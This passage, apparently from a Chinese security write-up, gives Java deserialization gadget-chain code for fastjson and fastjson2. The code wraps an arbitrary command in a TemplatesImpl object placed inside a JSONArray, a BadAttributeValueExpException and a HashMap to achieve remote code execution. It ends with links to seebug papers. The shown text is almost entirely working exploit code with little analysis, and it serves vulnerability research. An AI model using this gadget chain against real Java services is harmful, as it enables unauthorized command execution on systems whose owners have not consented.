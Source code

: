 

```java
public Object getObject(String command) throws Exception {
    Object templatesImpl = Gadgets.createTemplatesImpl(command);

    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templatesImpl);

    BadAttributeValueExpException bd = new BadAttributeValueExpException(null);
    Reflections.setFieldValue(bd, "val", jsonArray);

    HashMap hashMap = new HashMap();
    hashMap.put(templatesImpl, bd);
    return hashMap;
}
```

## 0x04 fastjson2

fastjson2 的构造类似

```java
public Object getObject(String command) throws Exception {
    Object templatesImpl = Gadgets.createTemplatesImpl(command);
    JSONArray jsonArray = new JSONArray();
    jsonArray.add(templatesImpl);
    BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
    Reflections.setFieldValue(badAttributeValueExpException, "val", jsonArray);
    // M1
    HashMap hashMap = new HashMap();
    hashMap.put(templatesImpl, badAttributeValueExpException);
    return hashMap;
}
```



**参考**

> https://paper.seebug.org/2055/
>
> https://paper.seebug.org/2067/

